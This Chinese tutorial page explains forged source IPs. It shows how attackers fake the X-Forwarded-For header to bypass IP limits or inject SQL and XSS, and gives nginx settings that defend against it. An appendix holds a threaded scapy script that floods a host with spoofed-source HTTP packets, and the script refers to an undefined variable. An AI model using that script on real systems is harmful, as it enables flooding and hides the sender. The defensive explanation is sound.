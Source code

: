 title: ip伪造与防范 

#  ip伪造与防范 
在阅读本文前，大家要有一个概念，**由于TCP需要三次握手连接，在实现正常的TCP/IP 双方通信情况下，是无法伪造来源 IP 的**，也就是说，在 **TCP/IP 协议中，可以伪造数据包来源 IP** ，但这会让发送出去的` 数据包有去无回，无法实现正常的通信 `。
<WRAP center round tip 60%>
一些DDoS 攻击，它们只需要不断发送数据包，而不需要正常通信，它们就会采取这种"发射出去就不管"的行为来进行攻击。
</WRAP>
那么在HTTP 中， " 伪造来源 IP",  又是如何造成的？如何防御之？
先搞明白后端应用IP获取来源
1.’**REMOTE_ADDR**’是远端IP，默认来自tcp连接客户端的Ip。可以说，它最准确，确定是，只会得到直接连服务器客户端IP。**如果对方通过代理服务器上网，就发现。获取到的是代理服务器IP了。**
如：a->b(proxy)->c  ,如果c 通过’REMOTE_ADDR’ ，只能获取到b的IP,获取不到a的IP了。
这个值是无法修改的。

2.’**HTTP_X_FORWARDED_FOR**’，’**HTTP_CLIENT_IP**’ 为了能在大型网络中，获取到最原始用户IP，或者代理IP地址。对HTTp协议进行扩展。定义了实体头。
HTTP_X_FORWARDED_FOR = clientip,proxy1,proxy2其中的值通过一个 逗号+空格 把多个IP地址区分开, 最左边(client1)是最原始客户端的IP地址, 代理服务器每成功收到一个请求，就把请求来源IP地址添加到右边。
HTTP_CLIENT_IP 在高级匿名代理中，这个代表了代理服务器IP。
` 其实这些变量，来自http请求的：X-Forwarded-For字段，以及client-ip字段。 ` 正常代理服务器，当然会按rfc规范来传入这些值。
**但是，攻击者也可以直接构造该x-forword-for值来"伪造源IP",并且可以传入任意格式IP.**
这样结果会带来2大问题，其一，如果你设置某个页面，做IP限制。 对方可以容易修改IP不断请求该页面。 其二，这类数据你如果直接使用，将带来SQL注册，跨站攻击等漏洞。
这类问题，其实很容易出现，比如很多时候利用这个骗取大量伪装投票。那么该如何修复呢？
在代理转发及反向代理中经常使用X-Forwarded-For 字段。
X-Forwarded-For(XFF)的有效性依赖于代理服务器提供的连接原始IP地址的真实性，因此, XFF的有效使用应该保证代理服务器是可信的.
比如Nginx代理服务器，我们可以在其转发/反向代理的时候主动配置X-Forwarded-For为正确的值。
```

location / {
	proxy_pass  ....;
	proxy_set_header X-Forwarded-For $remote_addr ;
}

```
**$remote_addr 是 nginx 的内置变量，代表了客户端真实（网络传输层） IP 。**通过此项措施，强行将 X-Forwarded-For 设置为客户端 ip,  使客户端无法通过本文所述方式“伪造 IP ”。

如果最前端（与用户直接通信）代理服务器是与php fastcgi 直接通信，则需要在其上设定：
```

location ~ \.php$ {
fastcgi_pass localhost:9000;
fastcgi_param  HTTP_X_FORWARD_FOR  $remote_addr;
}

```

但是更常用的配置如下：
```

proxy_set_header   Host             $host;
proxy_set_header   X-Real-IP        $remote_addr;
proxy_set_header   X-Forwarded-For  $proxy_add_x_forwarded_for;

```
后台代码，通过X-Real-IP头来获取客户真实IP
##  附：发射出去就不管的IP伪造 
python使用scapy修改源IP发送请求
```

from scapy.all import *  
from threading import Thread  
from Queue import Queue  
import random  
import string  
  
# items used for picking random HTTP User-Agent header value    
USER_AGENTS = (       
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.102 Safari/537.36",  
    "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2661.102 Safari/537.36",  
    "Mozilla/5.0 (Windows; U; Windows NT 5.0; en-US; rv:0.9.2) Gecko/20020508 Netscape6/6.1",  
    "Mozilla/5.0 (X11;U; Linux i686; en-GB; rv:1.9.1) Gecko/20090624 Ubuntu/9.04 (jaunty) Firefox/3.5",  
    "Opera/9.80 (X11; U; Linux i686; en-US; rv:1.9.2.3) Presto/2.2.15 Version/10.10"  
)    
DOMAIN = "www.example.com"
#伪造100个IP
SOURCE = ['.'.join((str(random.randint(1,254)) for _ in range(4))) for _ in range(100)]  
  
class Scan(Thread):  
    HTTPSTR = 'GET / HTTP/1.0\r\nHost: %s\r\nUser-Agent: %s\r\n\r\n'  
    def run(self):  
        for _ in range(100):  
            http = self.HTTPSTR % (DOMAIN,random.choice(USER_AGENTS))  
            try:  
                request = IP(src=random.choice(SOURCE),dst=domain) / TCP(dport=80) / http  
                #request = IP(dst=domain) / TCP(dport=80) / http  
                send(request)  
            except:  
                pass  
            
task = []  
for x in range(10):  
    t = Scan()  
    task.append(t)  
  
for t in task:  
    t.start()  
  
for t in task:  
    t.join()  
  
print('all task done!')

```
参考:
http://www.cnblogs.com/chengmo/archive/2013/05/29/php.html
http://zhangxugg-163-com.iteye.com/blog/1663687
http://blog.csdn.net/lemon_tree12138/article/details/51198116